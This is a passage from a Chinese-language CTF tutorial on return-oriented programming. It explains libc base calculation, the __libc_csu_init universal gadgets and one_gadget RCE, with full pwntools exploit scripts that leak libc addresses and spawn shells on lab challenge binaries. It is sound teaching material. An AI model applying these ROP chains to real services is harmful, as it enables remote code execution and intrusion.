    payload+=p32(0)
    payload+=p32(0)
    payload+=p32(pop2)
    payload+=p32(0)
    payload+=p32(0)
    payload+=p32(last_name)
    payload+=p32(int80)

    io.sendline("A")
    io.sendline("/bin/sh")
    io.sendline("A")

    io.sendline("Y")

    io.sendline("2")

    io.sendline(payload)

    io.interactive()

```

运行脚本，成功拿到shell：



## 从给定的libc中寻找gadget

pwn题目提供一个pwn环境里对应版本的libc的情况下，我们就可以通过泄露出某个在libc中的内容在内存中的实际地址，通过计算偏移来获取system和“/bin/sh”的地址并调用。将`~/Security Fest CTF 2016-tvstation/tvstation`部署到64位的环境中。
先运行程序：



题目中除了显示出来的三个选项之外还有一个隐藏的选项4，选项4会直接打印出system函数在内存中的首地址。




从IDA中我们可以看到打印完地址后执行了函数debug_func()，进入函数debug_func()之后我们发现了溢出点



由于这个题目给了libc，且我们已经泄露出了system的内存地址。使用命令readelf -a 查看程序




从这张图上我们可以看出来.text节（Section）属于第一个LOAD段（Segment），这个段的文件长度和内存长度是一样的，也就是说所有的代码都是原样映射到内存中，代码之间的相对偏移是不会改变的。由于前面的PHDR, INTERP两个段也是原样映射，所以在IDA里看到的system首地址距离文件头的地址偏移和运行时的偏移是一样的。比如如：在这个libc中system函数首地址是0x456a0，即从文件的开头数0x456a0个字节到达system函数



运行程序发现system函数在内存中的地址是：`0x7f7244eecff0`


计算`0x7f7244eecff0 - 0x456a0 = 0x7F7244EA7950‬`
IDA调试时也能看到libc的加载首地址(因为不是同一次运行程序，所以这里IDA中看到的地址和计算得到的并不一致）：



根据这个事实，我们就可以通过泄露出来的libc中的函数地址获取libc在内存中加载的首地址，从而以此跳转到其他函数的首地址并执行。
在libc中存在字符串”/bin/sh”，该字符串位于.data节，根据同样的原理我们也可以得知这个字符串距libc首地址的偏移



还有用来传参的gadget :`pop rdi; ret`




构建ROP链如下：

```python
    #!/usr/bin/python
    #coding:utf-8

    from pwn import *

    io = remote('172.17.0.2', 10001)

    io.recvuntil(": ")
    io.sendline('4')
    io.recvuntil("@0x")
    system_addr = int(io.recv(12), 16)
    # system_addr = int(io.recv()[0:12], 16)
    libc_start = system_addr - 0x456a0
    pop_rdi_addr = libc_start + 0x400c13
    binsh_addr = libc_start + 0x18ac40

    payload = ""
    payload += 'A'*40
    payload += p64(pop_rdi_addr)
    payload += p64(binsh_addr)
    payload += p64(system_addr)

    io.sendline(payload)

    io.interactive()

```

运行脚本即可拿到shell



## 特殊的gadget

### 通用gadgets

通用gadgets，通常位于x64的ELF程序的`__libc_csu_init`中：




gadget1:`mov rdx, r13; mov rsi, r14; mov edi, r15d; call qword ptr [r12+rbx*8]`;
gadget2:`pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; retn`;
gadget3:`pop rdi;retn`;

在x64的ELF程序中向函数传参，通常顺序是`rdi, rsi, rdx, rcx, r8, r9, 栈`，以上三段gadgets中，gadget2可以设置`r12-r15`，接上gadget3使用已经设置的寄存器设置`rdi`, 接上gadget1设置`rsi, rdx, rbx`，最后利用`r12+rbx*8`可以call任意一个地址(令rbx=0，r12为任意地址）。在找gadgets出现困难时，可以利用这个gadgets快速构造ROP链。需要注意的是，用万能gadgets的时候需要设置`rbp=1`，因为`call qword ptr [r12+rbx*8]`之后是`add rbx, 1; cmp rbx, rbp; jnz xxxxxx`。由于我们通常使`rbx=0`，从而使`r12+rbx*8 = r12`，所以call指令结束后rbx必然会变成1。若此时`rbp != 1`，jnz会再次进行call，从而可能引起段错误。
例子`~/LCTF 2016-pwn100/pwn100`中提供了linc，这个程序无论我们怎么输入都会产生溢出：




我们需要做的就是泄露一个got表中函数的地址，然后计算偏移得到system的地址:

```python
  #coding:utf-8

  from pwn import *

  io = remote("172.17.0.3", 10001)
  elf = ELF("./pwn100")

  puts_addr = elf.plt['puts']
  read_got = elf.got['read']

  start_addr = 0x400550
  pop_rdi = 0x400763
  universal_gadget1 = 0x400740
  # mov rdx, r13
  # mov rsi, r14
  # mov edi, r15d
  # call qword ptr [r12+rbx*8]

  universal_gadget2 = 0x40075a
  # pop rbx
  # pop rbp
  # pop r12
  # pop r13
  # pop r14
  # pop r15
  # retn

  binsh_addr = 0x601060
  # binsh_addr = 0x601040
  payload = "A"*72
  payload += p64(pop_rdi)
  payload += p64(read_got)
  payload += p64(puts_addr)
  payload += p64(start_addr)
  payload = payload.ljust(200, "B")

  io.send(payload)
  io.recvuntil('bye~\n')
  read_addr = u64(io.recv()[:-1].ljust(8, '\x00'))
  # read_addr = u64(io.recv().ljust(8,'\x00'))
  log.info("read_addr = %#x", read_addr)
  system_addr = read_addr - 0xb31e0
  log.info("system_addr = %#x", system_addr)
```




从libc的system和read的地址可以计算得到两者之间的偏移量：`0xF8880-0x456A0=0xB31E0`,所以system在内存中的地址为：`system_addr = read_addr - 0xb31e0`



得到system的地址，为了使用万能的gadgets，我们再次调用read函数读取`bin/sh\x00`,而不是直接使用偏移读取libc中的`bin/sh`。
下面通过gadget1和gadget2布置好栈：

```python
  payload = "A"*72
  payload += p64(universal_gadget2)
  # pop rbx
  # pop rbp
  # pop r12
  # pop r13
  # pop r14
  # pop r15
  # retn
  payload += p64(0)               #rbx = 0
  payload += p64(1)               #rbp = 1
  payload += p64(read_got)        #r12 = got表中read函数项，里面是read函数的真正地址，直接通过call调用
  payload += p64(8)               #r13 = 8，read函数读取的字节数
  payload += p64(binsh_addr)      #r14 = read函数读取/bin/sh保存的地址
  payload += p64(0)               #r15 = 0，read函数的参数fd
  payload += p64(universal_gadget1)
  # mov rdx, r13
  # mov rsi, r14
  # mov edi, r15d
  # call qword ptr [r12+rbx*8]
```

让`rbx=0`是为了使`call qword ptr [r12+rbx*8]`变成`call qword ptr [r12]`从而达到调用后面将地址赋给r12的read函数。使`rbp=1`是为了过掉后面的`jnz short loc_400740`防止jnz再次进行call，从而可能引起段错误。剩下的就是布置read函数的参数即函数本身的地址。

回头看一下universal_gadget2的执行流程，可以发现由于我们的构造，`sub_400740`只会执行一次，然后流程就将跳转到下面的`loc_400756`，这一系列操作将会抬升8*7共56字节的栈空间，因此我们还需要提供56个字节的垃圾数据进行填充，然后才能拼接上retn要跳转的地址(即`start_addr`,我们需要再执行一次输入来读取'bin/sh\x00')


```python
  payload += '\x00'*56
  payload += p64(start_addr)
  payload = payload.ljust(200, "B")

  io.send(payload)
  io.recvuntil('bye~\n')
  io.send("/bin/sh\x00")

  payload = "A"*72
  payload += p64(pop_rdi)
  payload += p64(binsh_addr)
  payload += p64(system_addr)
  payload = payload.ljust(200, "B")

  io.send(payload)
  io.interactive()
```

### one gadget RCE

通过一个gadget远程执行代码, 例子：`~/TJCTF 2016-oneshot/onesho`
工具[one_gadget](https://github.com/david942j/one_gadget),使用这个gadget还需要一个对应的libc。

示例中的程序并不复杂，第二个输入会将我们的输入当作地址执行：


因为输入为长整型，所以只能控制四个字节的地址，使用one_gadget找一个gadget：


程序中执行`call rdx`前会执行`mov eax,0`所以这里选择第一个gadget：`0x45526 execve("/bin/sh",rsp+0x30,environ)`
构建脚本如下：

```python
  #!/usr/bin/python
  #coding:utf-8

  from pwn import *

  one_gadget_rce = 0x45526
  #one_gadget libc.so.6_x64
  #0x45526        execve("/bin/sh", rsp+0x30, environ)
  #constraints:
  #  rax == NULL
  setbuf_addr = 0x77f50
  setbuf_got = 0x600ae0

  io=process("./oneshot")
  # io = remote("172.17.0.2", 10001)

  io.sendline(str(setbuf_got))
  io.recvuntil("Value: ")
  setbuf_memory_addr = int(io.recv()[:18], 16)

  io.sendline(str(setbuf_memory_addr - (setbuf_addr - one_gadget_rce)))

  io.interactive()
```

因为程序第一个输入部分会将我们输入的地址的内存地址打印出来，所以我们可以通过`setbuf`的`got`表地址来泄露`setbuf`在内存中的地址，然后再计算偏移量得到我们找到的gadget在内存中的地址。


